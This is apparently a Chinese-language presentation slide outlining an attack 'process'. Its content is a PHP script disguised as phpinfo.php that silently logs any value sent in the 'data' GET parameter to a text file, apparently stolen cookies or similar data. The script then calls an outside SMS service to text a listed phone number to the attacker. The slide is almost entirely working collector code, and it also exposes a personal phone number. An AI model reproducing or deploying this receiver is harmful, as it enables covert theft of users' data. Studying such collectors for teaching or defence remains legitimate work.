

大概流程
Phpinfo.php的内容如下:
<?php
phpinfo();
$data = $_GET['data'];
$fp = fopen("1.txt","a");
fwrite($fp,$data."\r\n");
fclose($fp);
//发一条短信给我手机
file_get_contents("http://vip.wood-spring.com/sms/sms_api.php?code=?
&phone=18221114203&message=get%20some%20body");
?>